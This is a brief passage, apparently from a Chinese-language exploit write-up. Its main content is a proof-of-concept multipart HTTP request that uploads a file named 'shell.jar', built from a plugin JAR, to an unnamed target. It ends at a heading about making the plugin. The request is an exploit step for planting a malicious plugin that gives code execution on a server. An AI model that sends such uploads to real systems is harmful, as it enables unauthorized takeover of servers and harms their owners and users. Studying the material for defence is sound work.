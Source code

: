 ```poc
Content-Length: 672302

------WebKitFormBoundaryR18c5m1VIoSIwPqD
Content-Disposition: form-data; name="file"; filename="shell.jar"
Content-Type: application/octet-stream

{{file(E:\Java安全\basic-example-plugin1-2.1.1-RELEASE-jar-with-dependencies.jar)}}
------WebKitFormBoundaryR18c5m1VIoSIwPqD--

```

![image-20240831100411410](assets/image-20240831100411410.png)

![image-20240831102719406](assets/image-20240831102719406.png)

### 插件制作
